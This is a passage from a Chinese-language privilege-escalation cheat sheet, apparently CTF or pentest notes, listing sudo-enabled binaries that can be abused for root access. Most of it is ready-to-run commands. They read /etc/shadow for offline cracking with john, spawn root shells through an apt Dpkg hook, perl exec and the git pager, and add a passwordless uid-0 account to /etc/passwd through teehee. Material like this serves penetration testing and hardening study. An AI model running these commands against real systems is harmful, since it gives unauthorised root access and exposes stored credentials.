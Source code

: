 cat 命令用户连接文件并打印到标准输出设备上

在分配了sudo权限后，我们可以查看 `/etc/shadow` 文件中的账号密码，并使用john破解

```sql
sudo cat /etc/shadow > newfile
```

## sudo apt

apt 命令执行需要超级管理员权限(root)。普通用户可调用sudo执行apt

使用方法是，创建一个临时的文件，并在其中构建一个包来调用/bin/bash，然后通过apt-get安装该包

```sql
TF=$(mktemp) 
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF 
sudo apt-get install -c $TF sl
```

## sudo xxd

xxd命令是 二进制显示和处理文件工具，其可以将给定的文件内容生成为十六进制文件，反过来也行

提权原理是使用xxd读取十六进制的`/etc/shadow`文件，并通过管道符连接另一个xdd命令以将十六进制恢复为原文件

```sql
sudo xxd "/etc/shadow" | xxd -r
```

## **sudo perl**

```sql
sudo perl -e 'exec "/bin/bash";'
```

## **sudo git**

```sql
sudo git help config
	!/bin/bash或者！'sh'完成提权
 
sudo git  -p help
	!/bin/bash
```

## sudo teehee

```python
echo "raaj::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

按照linux用户机制，如果没有shadow条目，且passwd用户密码条目为空的时候，可以本地直接su空密码登录。所以只需要执行su raaj就可以登录到raaj用户，这个用户因为uid为0，所以也是root权限直接修改

可以给当前用户添加sudo权限
